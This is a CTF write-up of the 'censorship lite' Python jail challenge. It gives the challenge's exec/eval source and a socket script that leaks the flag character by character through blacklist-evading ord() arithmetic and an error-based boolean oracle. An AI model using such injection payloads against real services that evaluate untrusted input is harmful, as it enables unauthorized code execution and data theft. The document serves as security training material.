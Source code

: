 # censorship lite

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/9b52555e-eb00-4671-898d-1efbaa164e90)

```
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if any([i in code for i in "\lite0123456789"]):
                raise ValueError("invalid input")
            exec(eval(code))
        except Exception as err:
            print(err)
```

## solution

here, a lot more chars a disallowed

luckily, we stil have access to ord, and we have access to the errors, so we can test if a boolean is true by checking a one-char string with index of the boolean (true=1, false=0)

```py
import socket
from time import sleep

HOST = "amt.rs"
PORT = 31671

chars = "abcdfghjkmnopqrsuvwxyz"
chars += chars.upper()
chars += "_{}.:-=+[]()*!@#$%^&<>,./?"
l_index = -1

total = ""
while True:
    l_index += 1
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        s.recv(1024)
        for char in range(48, 126):
            repeat = 'ord("b")-ord("a")+'
            index = chr(ord("a")+l_index)
            payload = f'"a"[ ord(_[ ord("a")-ord("a")+{(repeat*l_index)[:-1]} ])-' + \
                      f'( {(repeat*char)[:-1]} ) % ((ord("P")-ord("@"))*(ord("P")-ord("@") )) != (ord("P")-ord("P")) ]\n'
            s.send(payload.encode('ascii'))
            data = s.recv(65536).decode('ascii')
            sleep(0.004)
            if data.startswith("Give code"):
                total += chr(char)
                print(chr(char), l_index, total)
            # data = s.recv(1024)
            # print(char, data)

# amateursCTF{sh0uldv3_r3strict3D_p4r3nTh3ticaLs_1nst3aD}
```

we check the ascii value of each char in the flag against a number from 0-255, and then use a one-char string being indexed to get the flag

defo overengineered solution
